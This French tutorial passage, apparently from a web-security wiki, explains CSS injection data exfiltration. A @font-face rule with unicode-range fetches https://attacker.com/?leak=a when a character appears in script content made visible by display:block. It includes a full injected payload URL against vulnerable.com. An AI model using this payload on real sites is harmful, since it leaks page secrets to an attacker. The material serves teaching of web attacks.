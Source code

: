 {% code overflow="wrap" lineNumbers="true" %}
```css
script {
  display: block;
}
```
{% endcode %}

Cela a pour effet de faire apparaitre le contenu de la balise et ainsi déclencher la règle CSS `@font-face` (la victime pourra également voir le contenu pendant l'exploitation) :&#x20;

<figure><img src="../../../.gitbook/assets/image (10) (4).png" alt=""><figcaption></figcaption></figure>

Le code CSS complet est le suivant :&#x20;

```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // S'applique pour les balises script
  script {
    // Permet d'afficher son contenu
    diplay:block;
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```

Le lien malicieux permettant l'exploitation avec la nouvelle instruction CSS devient :&#x20;

<pre data-overflow="wrap"><code><strong>https://vulnerable.com/font-face-et-descripteur-unicode-script.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}script{display:block;font-family:attack;}
</strong></code></pre>

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}
